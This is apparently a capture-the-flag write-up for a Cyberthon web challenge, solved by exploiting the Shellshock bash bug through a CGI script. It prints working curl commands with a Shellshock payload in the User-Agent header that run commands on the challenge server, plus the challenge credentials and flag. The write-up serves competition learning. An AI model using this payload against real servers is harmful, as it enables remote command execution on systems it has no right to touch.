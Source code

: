 # WikiShellFall

### Web Services // 1500 Points // 0 Solves

*This challenge was solved after Cyberthon ended.*

*This writeup is incomplete. More information is needed and may be added.*

## Solution

Upon looking at this challenge, my first thought was that the solution would be a known exploit, because the page was using a framework. Hint 3 ("What is significant about bash, and the date?") was what told me that it was [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)). This was confirmed with a CSIT engineer (I was unsure since the date was _before_ the Shellshock vulnerability was discovered. I guess the narrative is that the server wasn't updated since then, leaving it exposed since Shellshock was undiscovered for three years).

Firstly, to get the easy stuff out of the way:

* Username: `Baba Ali` (from the frontpage: "This is the personal wiki of Baba Ali")
* Password: `Ek6OaGHk8ZRP3.wI` (comment in the source code of the front page)

### Bewildered Bash

[This page](http://garage4hackers.com/showthread.php?t=6902) and [this page](https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/) were almost basic Shellshock guides. If a request with any header with the contents of the Shellshock payload is sent, an arbitrary command can be run:

```
curl --user 'Baba Ali:Ek6OaGHk8ZRP3.wI' -A '() { :;}; echo "Flag:" $(/bin/bash -c "cat flag")' -v http://p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg:11345/cgi/minisleep.cgi
```

* `--user 'Baba Ali:Ek6OaGHk8ZRP3.wI'`: sets the authentication, since auth is handled by Nginx (i.e. CGI won't be run if Nginx doesn't allow it to)
* `-A '() { :;}; echo "Flag:" $(/bin/bash -c "cat flag")'`: sets the user agent (an HTTP header) to the Shellshock payload
	* The payload returns (in a header) the output of the command in the brackets, formatted properly
	* `/bin/bash -c` executes the following command. For some reason, just using `$()` results in `An error occurred while parsing CGI reply` being replied. Further investigations are needed. `/bin/sh` works as well.
* `-v`: verbose. Makes `curl` print the headers

The payload will be printed in the headers for an unknown reason. I believe that this is because there's a separator between the headers and the body being sent by CGI, but I'm not too sure. This writeup may be updated in the future with additional information. What this _means_, however, is that we must prepend "something: " in front of the output to make this a valid HTTP response header, so that Nginx doesn't freak out (you may get a `An error occurred while reading CGI reply (no response received)` error).

_input from [@JakeIsMeh](https://github.com/JakeIsMeh):_
This is only possible because the organizers moved their backend back to Bash. From the docs page:
> 2019-08-18: Version 1.10 (latest)  
> Changed the codebase from bash to POSIX sh.  No longer requires bash.
In the modified `minisleep.cgi`, however, it still uses Bash.

The output of an `ls` was odd, because each separator corresponded to a new HTTP header, leading to this weird result:

```
$ curl --user 'Baba Ali:Ek6OaGHk8ZRP3.wI' -A '() { :;}; echo "res:" $(/bin/bash -c "ls")' -v http://p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg:11345/cgi/min
isleep.cgi

< HTTP/1.1 400
< Server: nginx
< Date: Sun, 03 May 2020 14:33:50 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive

# Important bits below
< res: add-attributes.xsl
< buildpage.sh:
< flag:
< minisleep.cgi:
< rebuild_all_pages.sh:
...
```

After doing this, we can `cat` the flag:

```
$ curl --user 'Baba Ali:Ek6OaGHk8ZRP3.wI' -A '() { :;}; echo "Flag:" $(/bin/bash -c "cat flag")' -v http://p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg:11345/cgi/minisleep.cgi
*   Trying 128.199.134.10...
* TCP_NODELAY set
* Connected to p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg (128.199.134.10) port 11345 (#0)
* Server auth using Basic with user 'Baba Ali'
> GET /cgi/minisleep.cgi HTTP/1.1
> Host: p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg:11345
> Authorization: Basic QmFiYSBBbGk6RWs2T2FHSGs4WlJQMy53SQ==
> User-Agent: () { :;}; echo "Flag:" $(/bin/bash -c "cat flag")
> Accept: */*
>
< HTTP/1.1 400
< Server: nginx
< Date: Sun, 03 May 2020 14:40:49 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
< Flag: Cyberthon{update-y0ur-systemz-8W.wqDei}
...
```

## Flag

```
Cyberthon{update-y0ur-systemz-8W.wqDei}
```

## Takeaways

Oh are there many.

1. If everyone is exploiting Shellshock through the User Agent, don't look into how the CGI script works
2. Point 1, except when it's obvious that there aren't any environment variables to exploit anyways, obviously
3. Don't give up if something doesn't work on the first try (we did 1, because we didn't know we had to format the response as a header in the beginning)
4. High point challenges can actually have simple solutions as well (we did not expect the password to be in a commend for a looong while)
5. ~~Firefox is surprisingly good at things it's not meant for~~
